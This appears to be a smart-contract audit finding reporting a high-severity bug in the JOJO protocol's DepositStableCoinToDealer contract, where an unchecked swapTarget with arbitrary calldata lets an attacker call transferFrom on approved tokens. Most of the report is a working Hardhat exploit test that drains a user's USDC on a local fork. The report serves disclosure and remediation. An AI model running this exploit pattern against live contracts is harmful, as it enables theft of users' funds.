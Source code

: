 Jigsaw

high

# Possible to Steal tokens using DepositStableCoinDealer.sol

## Summary
if any user inadvertently leaves an approval balance for the DepositStableCoinToDealer.sol, it is possible for a malicious actor to steal the entire balance that is approved directly from their wallet. 

## Vulnerability Detail
the depositStableCoin function has no checks whatsoever to make sure swapTarget is actually a router. So it is possible to instead mark swaptarget as a token address, say USDC or WETH etc, and include the data for a transferFrom() call to that token address, stealing the users tokens. 

## Impact
your users will get super rekt. 

## Code Snippet
Here is the affected code: 
https://github.com/sherlock-audit/2023-04-jojo/blob/main/smart-contract-EVM/contracts/stableCoin/DepositStableCoinToDealer.sol#L36

Here is the function test showing the exploit. I had to make some small changes to hardhat config etc. will be able to share every change i made if needed. 
```typescript
import { ethers } from "hardhat";
import { impersonateAccount } from "@nomicfoundation/hardhat-network-helpers";
import depositAbi from "../artifacts/contracts/stableCoin/DepositStableCoinToDealer.sol/DepositStableCoinToDealer.json";
import dealerAbi from "../artifacts/contracts/impl/JOJODealer.sol/JOJODealer.json";
import abi from "./usdc";
import { expect } from "chai";
import { BigNumber } from "ethers";

const maxUint = ethers.constants.MaxUint256;
describe("Steal", () => {
  it("steal users coins", async () => {
    const FundingLibFactory = await ethers.getContractFactory("Funding");
    const LiquidationLibFactory = await ethers.getContractFactory(
      "Liquidation"
    );
    const OperationLibFactory = await ethers.getContractFactory("Operation");
    const fundingLib = await FundingLibFactory.deploy();
    const liquidationLib = await LiquidationLibFactory.deploy();
    const operationLib = await OperationLibFactory.deploy();
    const depositIfc = new ethers.utils.Interface(depositAbi.abi);
    const DepositFactory = await ethers.getContractFactory(
      "DepositStableCoinToDealer"
    );
    // const DepositFactory = new ethers.ContractFactory(
    //   depositIfc,
    //   depositAbi.deployedBytecode
    // );
    const dealerIfc = new ethers.utils.Interface(dealerAbi.abi);
    // const DealerFactory = new ethers.ContractFactory(
    //   dealerIfc,
    //   dealerAbi.deployedBytecode
    // );
    const DealerFactory = await ethers.getContractFactory("JOJODealer", {
      libraries: {
        Funding: fundingLib.address,
        Operation: operationLib.address,
        Liquidation: liquidationLib.address,
      },
    });

    console.log("hereeee");
    const user = "0xc6BD7da3146d9d35Aca33c16EC82187B81E5f533";
    await impersonateAccount(user);
    const userSigner = await ethers.getSigner(user);
    const usdcContract = new ethers.Contract(
      "0xa0b86991c6218b36c1d19d4a2e9eb0ce3606eb48",
      abi,
      userSigner
    );
    console.log("tiger");
    const [attacker] = await ethers.getSigners();

    const dealerContract = await DealerFactory.deploy(usdcContract.address);
    const depositContract = await DepositFactory.deploy(
      dealerContract.address,
      usdcContract.address
    );
    console.log("deployed");

    //user infinity approves deposit
    await attacker.sendTransaction({
      to: userSigner.address,
      value: ethers.utils.parseEther("1"),
    });
    await usdcContract.approve(depositContract.address, maxUint);
    //seed attacker
    await usdcContract.transfer(
      attacker.address,
      ethers.BigNumber.from("1000000000")
    );
    const blacklister = "0x5dB0115f3B72d19cEa34dD697cf412Ff86dc7E1b";
    await impersonateAccount(blacklister);
    const blSigner = await ethers.getSigner(blacklister);
    const usdc3 = await usdcContract.connect(blSigner);
    // console.log(await usdcContract.isBlacklisted(attacker.address));
    // await usdc3.unBlacklist(attacker.address);
    // await usdc3.unBlacklist(userSigner.address);
    // await usdc3.unBlacklist(depositContract.address);
    // await usdc3.unBlacklist(usdc3.address);

    console.log(await usdcContract.balanceOf(attacker.address));
    console.log("seeded");

    const data = usdcContract.interface.encodeFunctionData("transferFrom", [
      user,
      attacker.address,
      ethers.BigNumber.from("100000000000"),
    ]);

    const paramArgs = [attacker.address, usdcContract.address, data];

    const paramData = ethers.utils.defaultAbiCoder.encode(
      ["address", "address", "bytes"],
      paramArgs
    );
    const usdc2 = usdcContract.connect(attacker);
    await usdc2.approve(depositContract.address, "1");
    console.log("approve success");
    const attackerDepositContractInstance = depositContract.connect(attacker);
    await attackerDepositContractInstance.depositStableCoin(
      usdcContract.address,
      ethers.BigNumber.from("1"),
      attacker.address,
      paramData,
      "0"
    );
    const attackerUsdcAfter: BigNumber = await usdcContract.balanceOf(
      attacker.address
    );
    console.log(`attacker USDC: ${attackerUsdcAfter}`);

    expect(attackerUsdcAfter.gt("1000000000")).true;
  });
});
```

## Tool used
hardhat
Manual Review

## Recommendation
either hardcode the swapTarget address and use an aggregator like paraswap, or remove this entirely. NEVER let users make calls to arbitrary addresses with arbitrary call data. You will get rekt. 